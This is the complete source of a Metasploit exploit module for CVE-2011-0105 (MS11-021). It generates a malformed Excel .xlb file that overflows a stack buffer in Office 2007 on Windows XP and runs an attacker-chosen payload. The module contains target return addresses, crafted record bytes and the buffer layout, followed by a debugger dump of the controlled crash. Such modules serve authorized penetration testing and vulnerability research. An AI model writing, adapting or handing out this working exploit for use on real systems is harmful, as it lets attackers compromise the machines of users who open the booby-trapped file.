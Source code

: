 EXP
---

    ##
    # $Id: ms11_021_xlb_bof.rb 14172 2011-11-06 20:16:34Z sinn3r $
    ##

    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # Framework web site for more information on licensing and terms of use.
    # http://metasploit.com/framework/
    ##

    require 'msf/core'

    class Metasploit3 < Msf::Exploit::Remote
     Rank = NormalRanking

     include Msf::Exploit::FILEFORMAT

     def initialize(info={})
      super(update_info(info,
       'Name'           => "MS11-021 Microsoft Office 2007 Excel .xlb Buffer Overflow",
       'Description'    => %q{
         This module exploits a vulnerability found in Excel of Microsoft Office 2007.
        By supplying a malformed .xlb file, an attacker can control the content (source)
        of a memcpy routine, and the number of bytes to copy, therefore causing a stack-
        based buffer overflow.  This results aribrary code execution under the context of
        user the user.
       },
       'License'        => MSF_LICENSE,
       'Version'        => "$Revision: 14172 $",
       'Author'         =>
        [
         'Aniway',       #Initial discovery (via ZDI)
         'abysssec',     #RCA, poc
         'sinn3r',       #Metasploit
         'juan vazquez'  #Metasploit
        ],
       'References'     =>
        [
         ['CVE', '2011-0105'],
         ['MSB', 'MS11-021'],
         ['URL', 'http://www.zerodayinitiative.com/advisories/ZDI-11-121/'],
         ['URL', 'http://www.abysssec.com/blog/2011/11/02/microsoft-excel-2007-sp2-buffer-overwrite-vulnerability-ba-exploit-ms11-021/']
        ],
       'Payload'        =>
        {
         'StackAdjustment' => -3500,
        },
       'DefaultOptions'  =>
        {
         'ExitFunction'          => "process",
         'DisablePayloadHandler' => 'true',
         'InitialAutoRunScript'  => 'migrate -f'
        },
       'Platform'       => 'win',
       'Targets'        =>
        [
         # Win XP SP3 (Vista and 7 will try to repair the file)
         ['Microsoft Office Excel 2007 on Windows XP',     {'Ret' => 0x3006A48D }], # JMP ESP in EXCEL (Office 2007)
         ['Microsoft Office Excel 2007 SP2 on Windows XP', {'Ret'=>0x3006b185}],    #JMP ESP in excel
        ],
       'Privileged'     => false,
       'DisclosureDate' => "Aug 9 2011",
       'DefaultTarget'  => 0))

       register_options(
        [
         OptString.new('FILENAME', [true, 'The filename', 'msf.xlb'])
        ], self.class)
     end

     def exploit
      path = File.join(Msf::Config.install_root, 'data', 'exploits', 'CVE-2011-0105.xlb')
      f = File.open(path, 'rb')
      template = f.read
      f.close

      p = payload.encoded

      # Offset 1556
      record = ''
      record << "\xa7\x00"                        #record type
      record << "\x04\x00"                        #record length
      if target.name =~ /Excel 2007 SP2/ # Microsoft Office Excel 2007 SP2
       record << "\xb0\x0d\x0c\x00"                #data
      else
       record << "\xb0\x0f\x0c\x00"                #data
      end

      # Offset 1564
      continue_record = ''
      continue_record << "\x3c\x00"               #record type
      continue_record << [p.length+32].pack('v')  #length

      buf  = ''
      buf << template[0, 1556]
      buf << record
      buf << continue_record
      buf << rand_text_alpha(1)
      buf << [target.ret].pack('V*')
      buf << "\x00"*12
      buf << p
      buf << template[2336, template.length]

      file_create(buf)
     end
    end

    =begin
    0:000> r
    eax=41414141 ebx=00000000 ecx=00000006 edx=008c1504 esi=0000007f edi=00000005
    eip=301a263d esp=00137ef8 ebp=00137f6c iopl=0         nv up ei pl nz na pe nc
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010206
    EXCEL!Ordinal40+0x1a263d:
    301a263d 8908            mov     dword ptr [eax],ecx  ds:0023:41414141=????????
    0:000> dc esp
    00137ef8  00000000 00000000 41414141 41414141  ........AAAAAAAA
    00137f08  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    00137f18  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    00137f28  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    00137f38  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    00137f48  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    00137f58  41414141 41414141 41414141 00000000  AAAAAAAAAAAA....
    00137f68  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
    =end